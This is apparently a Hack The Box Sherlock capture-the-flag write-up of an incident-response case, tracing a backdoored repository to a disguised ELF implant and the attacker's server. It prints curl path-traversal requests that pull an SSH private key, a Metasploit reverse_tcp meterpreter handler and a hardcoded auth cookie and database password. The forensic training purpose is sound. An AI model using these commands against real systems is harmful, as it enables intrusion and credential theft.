

{: .shadow width="900" }

## Introduction

This was my first time solving a Sherlock on Hack The Box, and it was also my
first time playing Sherlocks CTF. **Poisoned Branch** was the third challenge
in a continuous incident chain, picking up from stolen developer credentials
recovered earlier in the case, and chasing a backdoored git repository back
to the attacker's own box.

**Category:** Incident Response
**Difficulty:** Easy
**Evidence:** UAC Linux triage, KAPE-style collection
**Status:** Partially solved

## Poisoned Branch

### Scenario

Poisoned Branch starts from credentials stolen earlier in the case. Tom
Ainsworth, the contractor whose login was stolen, had installed a
suspicious-looking public repository onto his workstation, and it started
behaving strangely afterward. Investigators preserved a disk image of his
machine and a "temporary server image," and the working theory is that the
repository was backdoored, either the code itself or its CI/CD pipeline
configuration.

### Unpacking Tom's Home Directory

I started by unzipping `Tom.zip`, which gave me his home directory,
including a `Projects` folder with several repos: `csvtomd`,
`diogenes-breakroom-roster`, `diogenes-ticket-parser`, `dlt`, and
`json-to-csv`. Before digging into any one project, I wanted to see if Tom
had a shell history to work from.

```powershell
Get-Content .\.bash_history
```

The output was just `dev/null`, meaning his bash history had been redirected
away rather than left intact. That's already a little suspicious on its own,
so instead of relying on history I listed every file under his projects
directory to see what was actually there.

```powershell
Get-ChildItem .\Projects -Recurse -Force
```

That full listing was the first real answer: the project folder that
mattered was `diogenes-breakroom-roster`.

### Finding the Hidden Payload

Working through the other projects, `diogenes-ticket-parser` had a file that
didn't belong in a ticket-parsing script at all: a 1,112 KB file named
`calibration.bin` sitting inside `src/ticket_parser`, next to the normal
Python source files and a JPEG. A calibration file that size, inside a
Python project, was worth a closer look.

Separately, under Tom's cache directory at `.cache\.ticket-parser`, there was
a file called `.integrity`, also exactly 1,112 KB. Two unrelated-looking
files with the same unusual size is not a coincidence I wanted to ignore, so
I hashed both and compared them.

The hashes didn't match across MD5, SHA-1, SHA-256, SHA-384, or SHA-512, even
though the file sizes were identical. That told me `.integrity` wasn't just a
copy of `calibration.bin`, it was a different binary built to look the same
size, almost certainly to blend in during a casual file listing.

To confirm what `.integrity` actually was, I checked its first few bytes.

```powershell
Format-Hex .integrity | Select-Object -First 5
```

```text
00000000   7F 45 4C 46 02 01 01 00 00 00 00 00 00 00 00 00   .ELF............
00000010   03 00 3E 00 01 00 00 00 A7 98 00 00 00 00 00 00   ..>.............
```

`7F 45 4C 46` is the ELF magic number, the file signature every Linux
executable starts with (the same way a ZIP starts with `50 4B` and a gzip
archive starts with `1F 8B`). A file named `.integrity` with a `.bin`
extension nowhere near it was actually a Linux executable, which meant Tom's
cache directory was hiding a live binary dressed up as a harmless data file.

### Pulling Readable Strings Out of the Implant

With a disguised ELF binary confirmed, I wanted to see if there was anything
human-readable inside it, like a hardcoded C2 address, so I pulled it apart
with Sysinternals Strings.

```powershell
C:\Tools\Sysinternals\strings.exe -n 6 .integrity > strings.txt
```

```powershell
Select-String -Path strings.txt -Pattern "\b\d{1,3}(\.\d{1,3}){3}\b"
```

```text
strings.txt:1745:0.0.0.0
strings.txt:2321:127.0.0.1/
strings.txt:2399:1.2.0.4
strings.txt:3310:127.0.0.1
```

None of those were obviously the real C2 address, mostly loopback and
placeholder values baked into whatever networking library the binary was
built with. The malicious repository name, the payload file, and the full
path of the implant on disk were enough to answer the file-identification
questions on their own, though:

| Finding | Value |
|:--|:--|
| Malicious repository name | `diogenes-ticket-parser` |
| Encrypted payload file | `calibration.bin` |
| Full path of the C2 implant | `/home/Tom/.cache/.ticket-parser/.integrity` |

### Tracing the Commit Back to Its Author

Since `calibration.bin` and the poisoned repo pointed at a committed payload,
I checked the git history next to see who had actually introduced it.

```bash
git log --all --format="Author: %an | Email: %ae | %s"
```

```text
Author: Sebastain Moran | Email: cbass.Moran@blackpearl2026.htb | Initial project import
```

That email domain, `blackpearl2026.htb`, became the thread I followed for
the rest of the investigation. I also checked the branches to see if the
"poisoned branch" in the challenge name referred to something other than
`main`.

```bash
git branch -a
git log --all --oneline --graph --decorate
```

```text
* main
  remotes/origin/HEAD -> origin/main
  remotes/origin/main

* 81d8e74 (HEAD -> main, origin/main, origin/HEAD) Initial project import
```

There was no separate branch at all, just one commit on `main`. The
poisoning wasn't hidden in a side branch, it was baked straight into the
initial import.

### Working Through the Live System Triage

Alongside the repo, investigators had captured a UAC (Unix-like Artifacts
Collector) triage of the box the implant connected back to. A `.tar.gz` file
is really two formats stacked, a `tar` archive bundling the files together
and a `gzip` compression pass on top, so `tar -xzvf` does both steps in one
command on Windows.

```powershell
tar -xzvf uac-LT-TAinsworth-linux-20260915155349.tar.gz
```

That gave me `live_response`, `system`, `bodyfile`, `hash_executables`, and a
`[root]` directory mirroring the live filesystem. I wanted to know if the
implant had an active network connection, so I checked the captured socket
state.

```powershell
cat live_response\network\ss_-anp.txt | Select-String "ESTAB"
cat live_response\network\ss_-tanp.txt
```

```text
State   Recv-Q  Send-Q  Local Address:Port    Peer Address:Port    Process
ESTAB   0       0       192.168.0.21:50878    203.0.113.10:31337   users:((".integrity",pid=1514,fd=4))
```

That confirmed `.integrity` had an established connection out to port 31337,
which is the detail I needed to pivot from "a binary pretending to be a data
file" to "an active implant with a live C2 session."

### Decoding the Exfiltration Traffic

The audit log had a hex-encoded string logged alongside the implant's
activity. Decoding hex pairs back into ASCII characters in PowerShell is
straightforward with a split and convert, so I ran the encoded blob through
that:

```powershell
-join ('687474703A2F2F426C61636B506561726C323032362E6874623A393939392F646F776E6C6F61643F66696C653D2E2E2F2E2E2F2E7373682F69645F7273612E707562' -split '(..)' | Where-Object { $_ } | ForEach-Object { [char][convert]::ToInt32($_,16) })
```

```text
http://BlackPearl2026.htb:9999/download?file=../../.ssh/id_rsa.pub
```

That's a path traversal download endpoint on a server called
`BlackPearl2026.htb`, port 9999, and the attacker had used it to pull Tom's
public SSH key first. There was a second hex blob right next to the first
one, so I decoded that too.

```powershell
-join ('2D2D6865616465723D436F6F6B69653A20582D4F70657261746F722D417574683D6E61706F6C656F6E5F6D6F72616E5F31383934' -split '(..)' | Where-Object { $_ } | ForEach-Object { [char][convert]::ToInt32($_,16) })
```

```text
--header=Cookie: X-Operator-Auth=napoleon_moran_1894
```

That was the missing piece: the download endpoint wasn't open to anyone, it
required a specific custom auth cookie, and now I had it.

**Operator auth cookie:**

```text
X-Operator-Auth=napoleon_moran_1894
```

I cross-checked the timing against the audit log directly and found an
`execve` of `rm -rf Gov_HR_Continuity_Emergency_Callout_Roster.pdf` run from
inside `/home/Tom/Work_Stuff/ONBOARDING` at the same timestamp, which told me
whoever was on that session had also deleted evidence from Tom's own
machine on the way out.

```powershell
Get-Content -LiteralPath '[root]\var\log\audit\audit.log' | Select-String "comm=.rm."
```

### Reaching the Attacker's File Server

With a working host, port, and auth cookie, I scanned `10.129.5.235` to see
what else was exposed.

```powershell
nmap -A -p- 10.129.5.235
```

```text
PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
9999/tcp open   http     Werkzeug httpd 3.1.8 (Python 3.11.2)
```

Only SSH and that same port 9999 Flask app were reachable. I used the cookie
to confirm I could actually authenticate to it.

```powershell
curl.exe -v -b "X-Operator-Auth=napoleon_moran_1894" http://10.129.5.235:9999/
```

The response came back `200 OK` from a page titled "Moran File Exchange,"
a private file server gated entirely behind that one cookie value. Since the
implant had already shown me the path traversal pattern on `id_rsa.pub`, I
tried the same thing against the actual private key.

```powershell
curl.exe -b "X-Operator-Auth=napoleon_moran_1894" "http://10.129.5.235:9999/download?file=../../.ssh/id_rsa"
```

That returned moran's full OpenSSH private key. I saved it to a file and
used it to SSH straight into the attacker's own box.

```powershell
curl.exe -b "X-Operator-Auth=napoleon_moran_1894" "http://10.129.5.235:9999/download?file=../../.ssh/id_rsa" -o "C:\Users\Downloads\moran_id_rsa"
ssh -i "C:\Users\Downloads\moran_id_rsa" moran@10.129.5.235
```

### Reading the Attacker's Own History

Once I was in as `moran`, the first thing I checked was the shell history,
and unlike Tom's box this one hadn't been wiped.

```bash
cat ~/.bash_history
```

That showed a systemd service being set up for a Flask server
(`blackpearl-flask.service`) under `/etc/systemd/system`, which matched the
"Moran File Exchange" page I'd already authenticated to, plus references to
a `repos/` directory and an `Exfiltrated_Loot/` folder.

The real find was the Metasploit console history, which showed exactly how
the attacker had set up their listener before dropping the implant on Tom's
machine.

```bash
cat ~/.msf4/history
```

```text
use exploit/multi/handler
set lport 31337
set lhost blackpearl2026.htb
set payload linux/x64/meterpreter_reverse_tcp
run
```

**Implant architecture command declared at setup:**

```text
set payload linux/x64/meterpreter_reverse_tcp
```

The port and host in that handler, 31337 and `blackpearl2026.htb`, line up
exactly with the established connection I'd already found on Tom's box, so
this is the session that `.integrity` was actually phoning home to.

I also checked the Meterpreter session history specifically, to see what the
attacker did once they had a shell on Tom's machine.

```bash
cat ~/.msf4/meterpreter_history
```

```text
getuid
sysinfo
pwd
cd ../../
ls -la
cd .ssh
shell
search -d ONBOARDING
search -d ONBOARDING -f *.pdf
cd ../ONBOARDING
download -h
download Gov_HR_Continuity_Emergency_Callout_Roster.pdf
```

**Command used to locate a specific directory and file combo:**

```text
search -d ONBOARDING -f *.pdf
```

That's the attacker hunting specifically for PDFs inside an "ONBOARDING"
directory, found it, and downloaded the roster before going back to delete
the original with `rm -rf`, which is exactly the cleanup step I'd already
spotted in Tom's audit log.

### Looking for Moran's Password

At this point I wanted to find a password for `moran` itself, since the
shell history hadn't given me one directly. I checked a few more files in
the home directory and found a Metasploit database config instead, which
held PostgreSQL credentials rather than anything for the `moran` account.

```bash
cat ~/.msf4/database.yml
```

```yaml
development:
  adapter: postgresql
  database: msf
  username: msf
  password: qHAlZNlt5sQrUOpCW1Ub/xLo3R7h13l0CptMB3AenVU=
  host: 127.0.0.1
  port: 5433
```

That's a Metasploit Framework database password, not moran's login, so it
didn't get me any further on its own. Still following leads, I noticed an
`Exfiltrated_Loot/LOOT.zip` sitting in moran's home directory and tried the
one password I already had on hand from earlier in the case.

```bash
unzip /home/moran/Exfiltrated_Loot/LOOT.zip
```

```text
Archive:  /home/moran/Exfiltrated_Loot/LOOT.zip
[/home/moran/Exfiltrated_Loot/LOOT.zip] cvoss_exfil password:
  skipping: cvoss_exfil             incorrect password
  skipping: Gov_HR_Continuity_Emergency_Callout_Roster.pdf  incorrect password
  skipping: README.txt              incorrect password
```

That password didn't work either. I'm leaving this honestly unresolved:
moran's actual password, and whatever is actually sitting inside
`LOOT.zip`, is where my notes on Poisoned Branch stop for now. The rest of
the Sherlock chain (Silent Passenger, Iron Feather, Borrowed Name, Last
Light) is still ahead of me.

### Poisoned Branch Lessons Learned

1. Two files with identical sizes but mismatched hashes is a strong signal
   one of them was built to impersonate the other.
2. Checking magic bytes (`7F 45 4C 46` for ELF, `50 4B` for ZIP, `1F 8B` for
   gzip) is a fast way to catch a file lying about what it actually is.
3. `git log --all` and `git branch -a` together will tell you whether a
   "poisoned branch" is a separate branch or baked into the initial commit.
4. A UAC triage's live network capture (`ss -anp`/`ss -tanp`) is often the
   fastest way to confirm an implant has an active C2 session, rather than
   inferring it purely from static file analysis.
5. Not every lead resolves in one sitting. Documenting a dead end honestly
   is more useful than guessing at an answer.

## Tools Used

- PowerShell
- Sysinternals Strings
- Git
- Nmap
- curl
- Metasploit Framework (attacker-side artifacts)
